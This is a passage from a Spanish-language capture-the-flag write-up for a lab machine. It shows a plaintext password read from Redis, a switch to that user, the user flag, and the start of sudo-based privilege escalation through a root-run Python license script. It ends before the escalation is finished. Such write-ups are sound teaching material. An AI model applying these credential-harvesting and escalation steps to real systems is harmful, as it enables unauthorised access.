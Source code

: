 
Vemos que `cooper.dooper` tiene de contraseña `zooperdoopercooper`, ni hasheada ni nada...
```console
redis /var/run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

Ahora podemos migrar de usuario 
```console
(remote) www-data@format:/var$ su cooper
Password: 
cooper@format:/var$ 
```

Podemos leer la flag de usuario.
```console
cooper@format:~$ cat user.txt 
b19c37fb3a5040...
```

# Privilege Escalation
Podemos ejecutar como `root` el binario `/usr/bin/license`
```console
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

Vemos que no es un binario si no un script en Python
```console
cooper@format:~$ file /usr/bin/license
/usr/bin/license: Python script, ASCII text executable
```

Vemos que carga el contenido de `/root/license/secret` y utilizando una función de derivación de clave (KDF), deriva una clave de cifrado a partir del secreto y un salt predefinido. La clave resultante se codifica en base64 para su uso en criptografía o almacenamiento seguro.
```console
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))
```
